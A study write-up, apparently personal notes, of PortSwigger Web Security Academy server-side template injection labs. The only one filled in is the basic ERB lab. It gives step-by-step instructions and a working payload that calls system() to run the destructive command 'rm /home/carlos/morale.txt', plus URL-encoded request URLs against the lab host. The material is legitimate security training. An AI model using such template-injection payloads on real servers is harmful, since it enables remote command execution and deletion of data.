 ## Table of Contents

- [[#Basic server-side template injection]]
- [[#Basic server-side template injection (code context)]]
- [[#Server-side template injection using documentation]]
- [[#Server-side template injection in an unknown language with a documented exploit]]
- [[#Server-side template injection with information disclosure via user-supplied objects]]

## Basic server-side template injection
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic


### Quick Solution
The description already says that the template engine used is *ERB*. Looking online I found that a payload to execute commands is the following:
```
<%= system("rm /home/carlos/morale.txt") %>
```


### Solution
1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. In the ERB documentation, discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:
```
<%= 7*7 %>
```
4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL as follows, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25%3d+7*7+%25>
```
5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the ``system()`` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file as follows:
```
<%= system("rm /home/carlos/morale.txt") %>
```
8. URL-encode your payload and insert it as the value of the message parameter, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

## Basic server-side template injection (code context)
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context

